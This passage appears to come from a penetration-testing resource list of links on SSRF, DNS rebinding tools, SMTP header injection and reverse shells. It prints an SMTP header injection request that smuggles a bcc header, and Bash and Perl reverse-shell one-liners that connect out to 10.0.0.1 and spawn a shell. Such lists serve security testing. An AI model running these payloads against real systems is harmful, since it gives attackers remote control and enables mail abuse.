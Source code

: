 ### <a name="SSRF"></a>SSRF (Server-Side Request Forgery)
https://lab.wallarm.com/blind-ssrf-exploitation/
<br># There is such a thing as SSRF. There’s lots of information about it, but here is my quick summary.

https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/
<br># A Glossary of Blind SSRF Chains.

### DNS Rebinding
http://rebind.it
<br># Singularity of Origin is a tool to perform DNS rebinding attacks. It includes the necessary components to rebind the IP address of the attack server DNS name to the target machine's IP address and to serve attack payloads to exploit vulnerable software on the target machine.

https://github.com/brannondorsey/dns-rebind-toolkit
<br># DNS Rebind Toolkit is a frontend JavaScript framework for developing DNS Rebinding exploits against vulnerable hosts and services on a local area network (LAN).

https://github.com/brannondorsey/whonow
<br># A malicious DNS server for executing DNS Rebinding attacks on the fly.

https://nip.io
<br># Dead simple wildcard DNS for any IP Address

https://sslip.io
<br># sslip.io is a DNS (Domain Name System) service that, when queried with a hostname with an embedded IP address, returns that IP Address.

http://1u.ms/
<br># This is a small set of zero-configuration DNS utilities for assisting in detection and exploitation of SSRF-related vulnerabilities. It provides easy to use DNS rebinding utility, as well as a way to get resolvable resource records with any given contents.

### SMTP Header Injection
https://www.acunetix.com/blog/articles/email-header-injection/
<br># It is common practice for web pages and web applications to implement contact forms, which in turn send email messages to the intended recipients. Most of the time, such contact forms set headers. These headers are interpreted by the email library on the web server and turned into resulting SMTP commands, which are then processed by the SMTP server.
<br>```POST /contact.php HTTP/1.1```
<br>```Host: www.example2.com```
<br>``` ```
<br>```name=Best Product\nbcc: everyone@example3.com&replyTo=blame_anna@example.com&message=Buy my product!```

### Reverse Shell
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
<br># If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
<br># Bash
<br>```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

<br># PERL
<br>```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```
